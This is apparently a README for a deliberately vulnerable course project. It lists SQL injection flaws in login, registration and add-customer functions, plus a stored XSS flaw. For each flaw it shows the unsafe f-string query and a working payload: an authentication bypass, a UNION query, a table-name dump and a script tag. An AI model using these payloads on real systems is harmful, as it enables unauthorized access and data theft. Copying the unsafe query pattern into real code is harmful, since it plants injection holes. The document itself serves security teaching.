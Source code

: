 # Vulnerabilities in Communication LTD Project - vulnerable version

## 1) SQL Injection in Login Function

**Vulnerable Code:**
```python
query = f"SELECT * FROM users_user WHERE username = '{username}' AND password = '{password}'"
```

- Directly inserts user input (`username` and `password`) into an SQL query.
- No input validation or parameterized queries.

**Exploit Payload:**
```sql
' OR '1'='1' --
```

**Query becomes:**
```sql
SELECT * FROM users_user WHERE username = '' OR '1'='1' --' AND password = ''
```
- `'1'='1'` is always **true**, so the attacker can log in without credentials.

---

## 2) SQL Injection in Register Function

**Vulnerable Code:**
```python
user_exists_query = f"SELECT * FROM users_user WHERE username = '{username}' OR email = '{email}'"
```

- **Username and email are directly embedded** in the SQL query.
- No **input sanitization** or **parameterized queries**.

**Exploit Payload:**
```sql
' UNION SELECT sqlite_version(), NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL--
```

**Query becomes:**
```sql
SELECT * FROM users_user WHERE username = '' UNION SELECT sqlite_version(), NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL--' OR email = ''
```
- **Extracts the SQLite version** and assigns it as `username`.

---

## 3) SQL Injection & Stored XSS in Add Customer Function

**Vulnerable Code:**
```python
insert_query = f"""
    INSERT INTO users_customer (first_name, last_name, customer_id, phone_number, email)
    VALUES ('{first_name}', '{last_name}', '{customer_id}', '{phone_number}', '{email}')
"""
```

- **Directly embeds user input into SQL without sanitization.**
- Allows **SQL Injection** and **Stored XSS**.

### **SQL Injection Payload:**
```sql
test' || (SELECT group_concat(name) FROM sqlite_master WHERE type='table') || (SELECT hex(randomblob(4))) || '@example.com' || '--
```

**What Happens?**
- Inserted as a client name in the customer list.
- Displays all **database table names** on the View Customer page.

### **Stored XSS Payload:**
```html
<script>alert("XSS Attack!");</script>
```

**What Happens?**
- Injected into `first_name`, and every time a user views the customer list, it triggers JavaScript.
- Can lead to **account hijacking** or **session theft**.

---



